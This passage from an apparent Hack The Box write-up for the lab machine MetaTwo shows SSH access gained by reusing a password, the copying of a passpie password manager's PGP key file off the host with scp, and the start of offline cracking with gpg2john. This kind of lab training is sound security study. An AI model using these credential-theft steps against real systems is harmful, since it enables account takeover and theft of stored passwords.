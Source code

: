 From reading `/etc/passwd` earlier, I know `jnelson` is the primary user on the box, I try his email password with SSH and it gets me in!
## Root Shell
`Jnelson` has a folder called `.passpie` in the home directory. I don't think I've seen this before, it's out of the ordinary. This has some files containing pgp messages as well as public and private pgp keys.[Passpie](https://github.com/marcwebbie/passpie) is an open source CLI password manager app written in python. I search for vulns in `passpie` but get nothing. 

I run `passpie` and see that it contains 2 passwords, one for `jnelson` and one for `root`. Any command that might get me the password in cleartext needs a password, which is to be expected.
```bash
jnelson@meta2:~/.passpie$ passpie
╒════════╤═════════╤════════════╤═══════════╕
│ Name   │ Login   │ Password   │ Comment   │
╞════════╪═════════╪════════════╪═══════════╡
│ ssh    │ jnelson │ ********   │           │
├────────┼─────────┼────────────┼───────────┤
│ ssh    │ root    │ ********   │           │
╘════════╧═════════╧════════════╧═══════════╛
jnelson@meta2:~/.passpie$ passpie --help
Usage: passpie [OPTIONS] COMMAND [ARGS]...

Options:
  -D, --database TEXT  Database path or url to remote repository
  --autopull TEXT      Autopull changes from remote pository
  --autopush TEXT      Autopush changes to remote pository
  --config PATH        Path to configuration file
  -v, --verbose        Activate verbose output
  --version            Show the version and exit.
  --help               Show this message and exit.

Commands:
  add       Add new credential to database
  complete  Generate completion scripts for shells
  config    Show current configuration for shell
  copy      Copy credential password to clipboard/stdout
  export    Export credentials in plain text
  import    Import credentials from path
  init      Initialize new passpie database
  list      Print credential as a table
  log       Shows passpie database changes history
  purge     Remove all credentials from database
  remove    Remove credential
  reset     Renew passpie database and re-encrypt...
  search    Search credentials by regular expressions
  status    Diagnose database for improvements
  update    Update credential
jnelson@meta2:~/.passpie$ passpie copy root
Passphrase: 
Aborted!
```
I can extract hashes from pgp keys using `JohnTheRipper`. I copy the `.keys` file from the `.passpie` directory back to my box.
```bash
┌──(kali㉿Kali)──[23:43:53]──[~/htb/Machines/MetaTwo]
└─$ scp jnelson@metapress.htb:~/.passpie/.keys keys
jnelson@metapress.htb's password: 
.keys                                                                                        100% 5243    29.1KB/s   00:00
```
I remove the public key block from the file and run `gpg2john` on it and get a hash.
```bash
┌──(kali㉿Kali)──[23:53:43]──[~/htb/Machines/MetaTwo]
└─$ gpg2john keys
```